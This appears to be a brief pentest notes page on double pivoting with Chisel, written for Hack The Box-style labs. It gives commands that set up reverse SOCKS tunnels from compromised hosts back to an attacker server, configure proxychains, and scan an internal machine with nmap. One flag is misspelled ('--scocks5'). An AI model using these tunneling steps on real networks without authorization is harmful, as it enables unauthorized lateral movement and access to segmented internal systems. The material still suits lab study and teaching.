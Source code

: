 # Chisel - Double Pivoting

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Attacker Machine

```
./chisel server -p 3333 --reverse


# Edit proxychains4.conf
sudo nano /etc/proxychains4.conf

Add -> socks5 127.0.0.1 1111
Add -> socks5 127.0.0.1 5555
```

## Second Machine (M 1)

```
./chisel32 server -p 2222 --reverse --scocks5 


# After completing steps on all the machines
./chisel32 client <server ip>:3333 R:1111:socks
```

## Third Machine (M 2)

```
./chisel32 client <second machine ip>:2222 R:5555:socks
```

## Scan Fourth Machine (M 3)

```
proxychains nmap -sT -p 22 <m3 machine ip>
```

##

## REFERENCES

* [https://forum.hackthebox.com/t/attacking-enterprise-networks-double-pivot-using-chisel/267043](https://forum.hackthebox.com/t/attacking-enterprise-networks-double-pivot-using-chisel/267043)&#x20;

